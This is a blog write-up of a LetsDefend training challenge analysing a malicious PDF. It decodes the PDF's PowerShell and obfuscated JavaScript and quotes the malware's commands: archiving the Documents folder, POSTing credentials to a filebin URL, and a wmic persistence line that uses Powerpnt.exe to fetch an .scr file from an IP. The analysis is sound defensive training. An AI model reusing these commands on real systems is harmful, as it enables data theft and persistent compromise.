 ```yaml
---
title: PDF Analysis
author: 0wlexe
date: 2022-12-11 20:55:00 +0800
categories: [Walkthroughs, LetsDefend]
tags: [File Analysis, Malware Analysis]
pin: false
img_path: 'https://miro.medium.com/v2/resize:fit:720/format:webp/1*FrflEPS13OZ9W0SUdk0owQ.png'
---
```


## Summary:
An employee has received a suspicious email:
  ```
From: systemsupdate@letsdefend.io
To: paul@letsdefend.io
Subject: Critical — Annual Systems UPDATE NOW
Body: Please do the dutiful before the deadline today.
Attachment: Update.pdf
Password: letsdefend
  ```

![Figure 01 - Simulation of the e-mail](https://miro.medium.com/v2/resize:fit:720/format:webp/1*e2ypH0L_zoVi--rIYGxseQ.png)

The employee has reported this incident to you as the analyst which has also forwarded the attachment to your SIEM. They have mentioned that they did not download or open the attachment as they found it very suspicious. They wish for you to analyze it further to verify its legitimacy.

**NOTE: Do not open in your local environment. It is a malicious file.**

This challenge was prepared by [@DXploiter.](https://twitter.com/DXploiter)

## Information we should find:

1. What local directory name would have been targeted by the malware?
2. What would have been the name of the file created by the payload?
3. What file type would this have been if it were created?
4. Which external web domain would the malware have attempted to interact with?
5. Which HTTP method would it have used to interact with this service?
6. What is the name of the obfuscation used for the Javascript payload?
7. Which tool would have been used for creating the persistence mechanism?
8. How often would the persistence be executed once Windows starts? (format: X.X hours)?
9. Which LOLBin would have been used in the persistence method?
10. What is the filename that would have been downloaded and executed using the LOLbin?
11. Where would this have been downloaded from? (format: IP address)
12. Which country is this IP Address located in?

## Write-up

In order to analyze the contents of the .pdf file, we can use the strings command to extract all strings present in our specified file “Update.pdf”.

![Figure 02 - Extraction of the pdf file using strings command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*5B01xTv3ZVcjaovRnskcBg.png)

Taking a closer look at the strings of the file, it is possible to find a powershell command encoded in Base64.

![Figure 03 - Powershell encoded command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*MkaEM89trAJ-bI_cBygHIg.png)

By decoding the previous command with a decoder tool, there’s a text of reversed characters, we can tell it by taking an even closer look: `p1zsc0D%wqnwnnjekwinz%stnemucoD%:C htaPnoitanitseD- etadpU- *%stnemucoD%:C htaP- evihcrA-sserpmoC`

![Figure 04 - Cryptii Decoder Tool, Base64 to text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*euw4Dx1jIhWHGRIdX1SLZQ.png)

Reversing the string, you should find the hidden powershell command: `Compress-Archive -Path C:%Documents%* -Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p`

![Figure 05 - Code Beautify Tool, Reverse String](https://miro.medium.com/v2/resize:fit:720/format:webp/1*882lAlFlSasi_SXFGyqn5Q.png)

By analysing the previous command, we have gathered the following information about the payload created by the malware:

- `Compress-Archive` - Command to compress the archive;
- `Path C:%Documents%*` - Local directory targeted by the malware;
- `Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p` - Update the destination path to create a new folder **“zniwkejnnwnqw”** containing the file **“D0csz1p”** which looks similar to **’docs.zip’.**

Going back to the strings of our file, there’s more lines of code we should also pay attention to. From the following lines, we can “get” a POST request, an HTTP method designed to send data to the server from an HTTP client.

![Figure 06 - Lines of code streaming data from client with HTTP - POST request](https://miro.medium.com/v2/resize:fit:720/format:webp/1*z66QaTxsqSrft2oLzrS8fQ.png)

However, by looking at these lines of code alone, we can only assume there is a JavaScript Object Notation (JSON) to be sent, but it’s not very clear to who it is being sent because it’s obfuscated.

![Figure 07 - Custom function eval(p,a,c,k,e,d)](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8hljApXrvvHnp2Djeo8YvA.png)

The `eval(p,a,c,k,e,d)` function evaluates JavaScript code represented as a string and returns its completion value. The source is parsed as a obfuscated script.

In order to have a better look at the script, we can use a tool to format the previous lines of code into something more readable.

![Figure 08 - Javascript Beautifier Tool](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ihY6E-M1cQeWc0VK6BvI3Q.png)

From the previous function, we can observe the following information:

- The file is trying to interact with the external domain: `“https://filebin[.]net/0flqlz0hiz6o4l32/D0csz1p"` by a POST request;
- The data it is trying to send are credentials that should be armazenated in the var data = `‘{“login”:””,”password”:””}’`.

Now in order to find which tool would have been used for creating the persistence mechanism within the payload, we should go back to the strings of the PDF and analyse the contents of the /ObjectAction.

![Figure 09 - Powershell script within the contents of the /ObjectAction](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ogFKxxMT34rKFm0x0g6UsQ.png)

We can open the script on powershell in order to find out more information, but instead of actually running it, we should change the input from `invoke-Expression $LoadCode` (to run the script) into `“Write-Output $LoadCode”` (to print the content of the script).

![Figure 10 - Powershell ISE, Write-Output of the script](https://miro.medium.com/v2/resize:fit:720/format:webp/1*CQUlYjYT0L_FHdFVjHlubQ.png)

Useful information taken from the script:

- `Query=”SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA ‘Win32_PerfFormattedData_PerfOS_System’”` The suspicious script should get events from a remote location within 9000 seconds;
- `wmic /NAMESPACE:”\\root\subscription” PATH CommandLineEventConsumer CREATE Name=”RHWsZbGvlj”, ExecutablePath=”C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe ‘http://60.187.184[.]54/wallpaper482[.]scr'`  It is creating a process to run a specified executable program from a command line under the LOLBin **“Powerpnt.exe”**, which downloads the file **“wallpaper482.scr”** hosted in the suspicious IP domain **60.187.184[.]54;**

![Figure 11 - VirusTotal information on the suspicious IP](https://miro.medium.com/v2/resize:fit:720/format:webp/1*_gTFVLWE5H4gnAQq5B6CkQ.png)

- Running the previous suspicious IP on VirusTotal, it is detected by five Antivirus’ vendors as a possible indicator of compromise located in China;

![Figure 12 - Information from the Whois Lookup](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Xsx33ZmjPL3ANVCmH2Oaew.png)

- In order to confirm its location, we can get the following information from the Whois: the IP is hosted under the ISP **CHINANET-ZJ**, located in Shaoxing, Zhejiang, China.

That should be enough to answer all the questions from the challenge. Thank you for reading!




